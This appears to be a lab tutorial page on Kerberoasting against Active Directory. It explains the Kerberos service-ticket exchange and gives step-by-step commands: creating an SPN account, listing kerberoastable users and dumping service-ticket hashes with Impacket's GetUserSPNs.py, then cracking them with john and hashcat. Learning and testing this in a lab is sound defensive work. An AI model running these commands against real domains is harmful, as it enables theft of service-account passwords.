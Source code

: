 # 7.3 - Kerberoasting

## Kerberoasting

Kerberoasting targets **service accounts with an assigned SPN**. When a user requests access to a service, they receive a **Service Ticket (ST)** encrypted with the service account’s long-term password.

If an attacker can obtain the **ST**, they can attempt to crack the encryption offline to retrieve the service account password.

#### Kerberos Ticket Exchange for Services

```
3) TGS-REQ (Client -> KDC/TGS)
   - TGT 🔑 Encrypted with KDC key
   - Authenticator Data 🔑 Encrypted with TGS Session Key

4) TGS-REP (KDC/TGS -> Client)
   - ST 🔑 Encrypted with Service key
   - Service Session Key 🔑 Encrypted with TGS Session Key
```

Unlike AS-REP Roasting, Kerberoasting requires valid domain user credentials to request a service ticket.

### Example: Exploiting Kerberoasting

**Step 1: Create a User with an SPN**

```powershell
New-ADUser -Name "kerberoasting" -SamAccountName "kerberoasting" -UserPrincipalName "kerberoasting@dev-angelist" -AccountPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force) -Enabled $true
```

**Step 2: Assign an SPN**

```powershell
Set-ADUser -Identity "kerberoasting" -ServicePrincipalNames @{Add="HTTP/kerberoasting.dev-angelist.lab"}
```

**Step 3: Verify the SPN**

```powershell
Get-ADUser -Identity "kerberoasting" -Properties ServicePrincipalNames
setspn -L kerberoasting
```

<figure><img src="../../.gitbook/assets/image (23) (1).png" alt=""><figcaption></figcaption></figure>

**Step 4: Identify Kerberoastable Accounts**

```bash
#On attacker machine create a dedicated python environment (optional)
python3 -m venv venv
. venv/bin/activate
pip3 install impacket
#Check kerberoastable users using the Impacket's module: GetUserSPNs.py
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc
```

<figure><img src="../../.gitbook/assets/image (24) (1).png" alt=""><figcaption></figcaption></figure>

in this case there're two vulnerable users: 'kerberoasting' and 'angel'.

**Step 5: Request Service Tickets for Kerberoasting**

```powershell
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc -request #without specifing a user it checks all possible tickets
GetUserSPNs.py dev-angelist.lab/devan:'Password123!' -dc-ip corp-dc -request-user kerberoasting | grep '\$krb5tgs\$' > kerberoast.txt
```

<figure><img src="../../.gitbook/assets/image (25) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

**Step 6: Crack the Service Ticket**

```bash
john --wordlist=/home/kali/Documents/password.txt ./kerberoast.txt
hashcat -m 18200 ./kerberoast.txt /home/kali/Documents/password.txt
```

<figure><img src="../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

#### Troubleshooting: Clock Skew Errors

If you encounter `KRB_AP_ERR_SKEW (Clock skew too great)`, synchronize the clocks with:

```bash
sudo timedatectl set-ntp off
ntpdate -q corp-dc
ntpdate -u corp-dc
```

***

## Other Resources

* [Kerberos Authentication Hexdump YT](https://www.youtube.com/watch?v=dQz3CMlVYNY\&list=PLJnLaWkc9xRi71Pso26JlvyBkLUOETLjn)
* [Roasting attacks Hexdump YT](https://www.youtube.com/watch?v=fVTZEIZIEqg)
